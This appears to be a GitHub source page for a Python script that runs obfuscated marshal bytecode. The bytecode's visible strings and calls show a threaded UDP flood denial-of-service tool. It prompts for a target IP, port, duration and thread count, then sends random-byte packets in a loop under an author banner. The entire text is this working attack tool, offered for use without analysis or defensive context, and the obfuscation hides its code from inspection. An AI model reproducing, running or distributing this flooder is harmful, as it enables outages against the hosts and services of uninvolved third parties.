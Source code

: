 # yaamellz
###Luciferz lz #Fiweiei404 import marshal exec(marshal.loads(b'\xe3\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00@\x00\x00\x00s\xd4\x00\x00\x00d\x00d\x01l\x00Z\x00d\x00d\x01l\x01Z\x01d\x00d\x01l\x02Z\x02d\x00d\x01l\x03Z\x03d\x00d\x02l\x03m\x04Z\x04\x01\x00e\x01\xa0\x05d\x03\xa1\x01\x01\x00e\x06d\x04\x83\x01\x01\x00e\x06d\x05\x83\x01\x01\x00e\x06d\x06\x83\x01\x01\x00e\x06d\x07\x83\x01\x01\x00e\x06d\x04\x83\x01\x01\x00e\x07e\x08d\x08\x83\x01\x83\x01Z\te\ne\x08d\t\x83\x01\x83\x01Z\x0be\ne\x08d\n\x83\x01\x83\x01Z\x0ce\ne\x08d\x0b\x83\x01\x83\x01Z\re\x07e\x08d\x0c\x83\x01\x83\x01Z\x0ed\rd\x0e\x84\x00Z\x0fe\x10e\r\x83\x01D\x00]\x12Z\x11e\x0ed\x0fk\x02s_e\x0ed\x10k\x02rge\x03j\x04e\x0fd\x11\x8d\x01\xa0\x12\xa1\x00\x01\x00qUd\x01S\x00)\x12\xe9\x00\x00\x00\x00N)\x01\xda\x06Thread\xda\x05clearz\x1f*******************************u0\x00\x00\x00FACEBOOK : \xe0\xb8\xaa\xe0\xb8\xa1\xe0\xb8\x8a\xe0\xb8\xb2\xe0\xb8\xa2 \xe0\xb8\xaa\xe0\xb8\x9a\xe0\xb8\xb2\xe0\xb8\xa2\xe0\xb8\x88\xe0\xb8\xb1\xe0\xb8\x87z&amp;Github : https://github.com/earthza001z\x1eAuthor Facebook : Imyour Loveez\x05IP : z\x07port : z\ntime(5) : z\x0cthread(5) : z!Do you want to continue? [Y/N] : c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\x07\x00\x00\x00C\x00\x00\x00s\x8a\x00\x00\x00t\x00\xa0\x01d\x01\xa1\x01}\x00\t\x00z5t\x02\xa0\x02t\x02j\x03t\x02j\x04\xa1\x02}\x01t\x05t\x06\x83\x01t\x07t\x08\x83\x01f\x02}\x02t\tt\n\x83\x01D\x00]\x08}\x03|\x01\xa0\x0b|\x00|\x02\xa1\x02\x01\x00q\x1bt\x0cd\x03t\x05t\x00\xa0\rd\x04d\x05\xa1\x02\x83\x01\x17\x00d\x06\x17\x00t\x05t\x00\xa0\rd\x07d\x08\xa1\x02\x83\x01\x17\x00\x83\x01\x01\x00W\x00n\x08\x01\x00\x01\x00\x01\x00t\x0cd\t\x83\x01\x01\x00Y\x00q\x06)\nNi N\x00\x00Tz\x17GET Attack HTTP thread \xe9d\x00\x00\x00i\x84\x03\x00\x00z\x07 PROXY \xe9\n\x00\x00\x00\xe9Z\x00\x00\x00z\n[*] ERROR )\x0e\xda\x06randomZ\x08_urandom\xda\x06socketZ\x07AF_INETZ\nSOCK_DGRAM\xda\x03str\xda\x02ip\xda\x03int\xda\x04port\xda\x05range\xda\x05TimesZ\x06sendto\xda\x05printZ\x07randint)\x04Z\x04fine\xda\x01sZ\x04addr\xda\x01x\xa9\x00r\x12\x00\x00\x00\xda\x00\xda\x06attack\x12\x00\x00\x00s\x16\x00\x00\x00\n\x01\x02\x01\x02\x01\x10\x01\x10\x01\x0c\x01\x0e\x010\x01\x06\x01\n\x01\x02\xf8r\x14\x00\x00\x00\xda\x01Y\xda\x01y)\x01\xda\x06target)\x13r\x08\x00\x00\x00\xda\x02osr\x07\x00\x00\x00Z\tthreadingr\x02\x00\x00\x00\xda\x06systemr\x0f\x00\x00\x00r\t\x00\x00\x00\xda\x05inputr\n\x00\x00\x00r\x0b\x00\x00\x00r\x0c\x00\x00\x00r\x0e\x00\x00\x00Z\x07threadsZ\x05readyr\x14\x00\x00\x00r\r\x00\x00\x00r\x15\x00\x00\x00\xda\x05startr\x12\x00\x00\x00r\x12\x00\x00\x00r\x12\x00\x00\x00r\x13\x00\x00\x00\xda\x08&lt;module>\x01\x00\x00\x00s,\x00\x00\x00\x08\x00\x08\x01\x08\x01\x08\x01\x0c\x01\n\x01\x08\x01\x08\x01\x08\x01\x08\x01\x08\x01\x0c\x01\x0c\x01\x0c\x01\x0c\x01\x0c\x01\x08\x02\x0c\x0c\x10\x01\x10\x01\x02\x80\x04\xfe'))

